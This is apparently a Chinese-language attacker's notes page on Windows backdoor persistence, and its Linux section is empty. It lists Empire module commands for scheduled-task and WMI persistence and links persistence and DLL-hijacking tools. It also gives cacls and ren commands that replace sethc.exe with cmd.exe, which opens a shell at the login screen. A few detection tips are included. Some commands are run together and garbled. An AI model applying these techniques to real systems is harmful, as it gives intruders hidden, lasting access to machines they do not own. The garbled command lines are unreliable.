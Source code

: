 ## 系统后门

### Windows

**Schtasks后门**

Schtasks.exe能够在本地或远程计算机上创建，删除，查询，更改，运行和结束计划任务

不带参数运行Schtasks.exe会显示每个已注册任务的状态和下一次运行时间。

**Empire中的模块**

```bash
persistence/userland/schtasks
persistence/elevated/schtasks*		#需要管理员权限
```

一个开源工具： https://github.com/fireeye/SharPersist 

**wmi后门**

WMI后门使用了WMI的两个特征：**无文件**和**无进程**（需要管理员权限运行）。

**原理是**：将代码加密存储与WMI中，即无文件；调用PowerShell执行后门程序，执行后进程消失，即无进程。

**在Empire中使用Invoke-WMI模块**

```bash
usemodule powershell/persistence/elevated/wmi	#设置参数run
```

> **检查后门**：使用微软提供的工具`Autoruns`：
>
> https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns 

**DLL劫持后门**

DLL劫持原理就是使用 `loadlibrary` 动态加载DLL

DLL劫持工具：[SuperDllHijack](https://github.com/anhkgg/SuperDllHijack)

**映像劫持shift后门**

**替换sethc.exe为cmd.exe**

```bash
CD C:\windows\system32
cacls sethc.exe /t /e /G Administrators:f
cacls cmd.exe /t /e /G Administrators:f
ren sethc.exe aaa.exeren cmd.exe sethc.exe

#恢复
ren sethc.exe cmd.exeren aaa.exe sethc.exe
```

连按5下Shift弹出cmd窗口

> **检查后门**：连续按5下弹出cmd窗口（当然还有其它放大镜讲述人等）

### Linux

